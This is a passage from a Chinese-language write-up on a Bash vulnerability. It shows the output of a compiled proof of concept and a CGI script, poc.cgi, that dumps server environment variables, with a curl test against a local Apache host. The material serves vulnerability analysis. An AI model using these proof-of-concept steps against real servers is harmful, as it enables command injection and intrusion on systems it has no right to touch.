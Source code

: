 ```
}

```

测试：

```
je@tiny:~$ gcc -o bash-is-fun bash-is-fun.c
je@tiny:~$ ./bash-is-fun
pwn me once, shame on you
je@tiny:/home/je$ /usr/bin/id
pwn me twice, shame on me

```

这个 POC 中可以看出 BASH 根本就没有去处理结尾，后面我们可以通过补丁来看为什么。

### 3，INVISIBLETHREAT 上对于 HTTP 环境的测试：

创建一个脚本叫 poc.cgi:

```
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0

```

把脚本放入测试机后，输入：

```
$ curl http://192.168.0.1/poc.cgi

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>PoC</title>
</head>
<body>
<pre>
SERVER_SIGNATURE=<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>

HTTP_USER_AGENT=curl/7.26.0
SERVER_PORT=80
HTTP_HOST=192.168.0.1
DOCUMENT_ROOT=/var/www
SCRIPT_FILENAME=/var/www/poc.cgi
REQUEST_URI=/poc.cgi
SCRIPT_NAME=/poc.cgi
REMOTE_PORT=40974
PATH=/usr/local/bin:/usr/bin:/bin
PWD=/var/www
```
